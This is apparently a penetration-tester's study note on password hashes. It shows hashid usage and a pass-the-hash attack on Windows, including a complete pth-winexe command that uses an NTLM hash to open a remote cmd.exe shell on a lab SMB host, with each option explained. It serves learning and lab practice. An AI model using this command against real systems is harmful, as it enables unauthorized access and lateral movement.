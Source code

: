 ## Password Hashes

To identify what type of hashing algorithm was used

```bash
hashid -j HASH
```

### Pass the Hash Attacks on Windows

Cracking hashes can be time consuming and require powerful hardware.

![image-20200725110750396](.Hashes.assets/image-20200725110750396.png)

Passing the hash involves sending the username and password hash to the target rather than the plaintext password.  This is possible because of the lack of salting in the passwords.

Once a username and hash have been discovered, they can be used to authenticate on any system with that account/password combination.

This is done by leveraging a SMB share and converting the NTLM hash into a NetNTLM hash.  These hashes could also be gathered with man-in-the-middle attacks or poisoning attacks.

```bash
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.216.10 cmd.exe

# Options
offsec%		# Username with '%' delimiter
aad3b435b51404eeaad3b435b51404ee:	# This is a generic LM hash for "No Password" that must be included along with the ':' delimiter
2892d26cdf84d7a70e2eb3b9f05c425e	# This is the actual NTLM hash obtained for the user account
//192.168.216.10	# UNC path to SMB share
cmd					# Command to execute (cmd.exe in this case)
```

### Useful Links

https://www.puckiestyle.nl/pass-the-hash/

https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/
